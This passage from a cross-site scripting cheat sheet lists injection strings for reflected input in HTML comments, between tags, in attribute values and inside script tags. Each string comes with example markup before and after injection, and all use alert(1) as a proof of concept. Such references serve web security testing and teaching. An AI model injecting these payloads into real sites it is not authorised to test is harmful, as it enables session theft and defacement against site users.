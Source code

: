 ```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```

3. Add --> to escape the payload if input lands in HTML comments.

```html
--><script>alert(1)</script>
```

* Example source code

```html
<!-- REFLECTED_HERE --> 
```

* After input the payload

```html
<!-- --><script>alert(1)</script> -->
```

4. Add when the input inside or between opening/closing tags, tag can be `<a>,<title>,<script>` and any other HTML tags

```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

* Example source code

```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

* After input the payload

```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5. Use when input inside an attribute’s value of an HTML tag but > is filtered

```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)
```

* Example source code

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload

```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

6. Use when input inside `<script>` tags

```html
</script><script>alert(1)</script>
```

